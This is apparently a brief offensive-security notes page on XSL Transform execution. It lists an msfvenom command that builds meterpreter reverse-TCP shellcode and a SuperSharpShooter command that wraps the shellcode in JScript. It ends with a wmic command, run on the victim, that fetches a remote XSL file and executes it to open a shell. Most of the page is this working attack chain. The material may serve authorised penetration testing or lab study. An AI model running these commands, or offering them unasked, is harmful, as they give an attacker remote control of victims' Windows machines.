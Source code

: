 # XSL Transform

Can be combined with JScript code (SuperSharpShooter) to get a meterpreter shell.
-- We can use x64 shellcode.

### Create shellcode:
- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f raw -o output/shell.txt`

### Create JScript using SuperSharpShooter:

`python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output test`

Embed the JS content to the XSL template, and on victim, run: `wmic process get /format:"http://192.168.0.1/test.xsl"`
